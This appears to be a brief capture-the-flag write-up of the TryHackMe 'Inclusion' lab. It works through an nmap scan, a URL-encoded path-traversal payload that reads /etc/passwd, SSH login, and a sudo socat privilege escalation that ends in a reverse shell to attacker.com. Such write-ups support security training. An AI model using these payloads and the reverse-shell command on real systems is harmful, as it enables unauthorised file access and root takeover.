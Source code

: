 https://tryhackme.com/room/inclusion

## scan

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 05:45 EDT
Nmap scan report for 10.10.14.177
Host is up (0.35s latency).
Not shown: 769 closed ports, 229 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

browse to the webpage - click into posts

the url has a LFI vulnerability, we can replace the end with ../ to try and read the passwd file

```
http://10.10.14.177/article?name=lfiattack
```

to

```
http://10.10.14.177/article?name=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

we read the password for falconfeast


## access

use the password for falconfeast to access ssh

read the user flag

## priv esc

copy linpeas.sh onto box and run

we find falconfeast can execute socat as root without a password

google socat priv esc

https://gtfobins.github.io/gtfobins/socat/

get a reverse shell with socat 

on attacker box, listen for reverse shell

```
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

on falconfeast ssh

```
RHOST=attacker.com
RPORT=12345
sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

read the root flag.
